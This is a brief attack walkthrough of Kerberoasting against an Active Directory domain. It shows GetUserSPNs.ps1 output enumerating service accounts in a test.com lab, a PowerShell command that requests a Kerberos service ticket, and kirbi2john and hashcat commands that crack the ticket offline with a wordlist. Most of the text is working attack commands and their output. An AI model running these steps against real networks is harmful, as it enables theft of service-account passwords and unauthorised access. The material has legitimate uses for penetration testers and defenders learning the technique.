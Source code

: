 # GetUserSPNs.ps1

[https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)

```
PS C:\Users\Administrator\Desktop> .\GetUserSPNs.ps1

ServicePrincipalName : HTTP/ExchangeService.test.com
Name                 : ExchangeService
SAMAccountName       : ExchangeService
MemberOf             : 
PasswordLastSet      : 1/1/1970 0:00:01 AM

ServicePrincipalName : HTTP/ExtMail.test.com
Name                 : extmailservice
SAMAccountName       : extmailservice
MemberOf             : 
PasswordLastSet      : 1/1/1970 0:00:01 AM

ServicePrincipalName : kadmin/changepw
Name                 : krbtgt
SAMAccountName       : krbtgt
MemberOf             : CN=Denied RODC Password Replication 
                       Group,CN=Users,DC=test,DC=com
PasswordLastSet      : 1/1/1970 0:00:01 AM

ServicePrincipalName : MSSQLSvc/test-app.test.com:1433
Name                 : SQLServer
SAMAccountName       : sqlServer
MemberOf             : 
PasswordLastSet      : 1/1/1970 0:00:01 AM

PS C:\Users\Administrator\Desktop> Add-Type -AssemblyName System.IdentityModel
PS C:\Users\Administrator\Desktop> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/test-app23.test.com:1433"
```

We need to transfer .kirbi files to local machine for cracking step.

```
./kirbi2john.py ....kirbi > hash.txt

hashcat -m 13100 -a 0 hash.txt rockyou.txt --force
```
